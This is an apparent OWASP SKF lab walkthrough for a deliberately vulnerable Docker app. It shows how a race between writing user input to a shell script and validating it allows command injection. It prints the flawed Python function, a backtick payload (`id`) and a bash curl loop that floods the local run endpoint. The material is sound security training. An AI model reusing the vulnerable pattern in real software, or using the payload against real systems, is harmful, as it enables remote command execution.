



# Race Condition

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```


Now that the app is running let's go hacking!


## Reconnaissance

### Step1


Congratulations, you won the race




All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`



If the username is correct, clicking `Boot` will put us on the score board. Yeah!!


### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1.  `boot_validate(person)`

    the function receives the username in input and executes the following:

    - deletes `"` and `\` from the username
    - opens `hello.sh` file
    - writes a command in it&#x20;
    - closes the file
    - logs some useful info&#x20;
    - checks if the username is in the format `[A-Za-z0-9 ]*`
    - returns the username if the regex succedes

2.  `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)
3.  `boot_run()` executes the `hello.sh` file
4.  `boot_reset()` resets the system to the default settings

### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `boot_validate(person)`

```
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `boot_run()` function

```
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file.

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python
def boot_validate(person):
    #person = person.replace('"',"").replace("\\","")
    bootfile = open("hello.sh","w")
    bootfile.write("echo \"" + person + "\" > hello.txt")
    bootfile.close()

    os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
    valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
    os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")

    return valid
```



```
 Everything works fine, so where is the problem?
```



The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '\`' backtick.

So our payload will be:

```
`id`
```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```bash
#!/bin/bash
while true; do

    curl -i -s -k  -X $'GET' \
        -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        $'http://localhost:5000/?action=run' | grep "Check this out"
done
```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:




Congratulations, you won the race for real now!!!!!!!!


## Additional sources


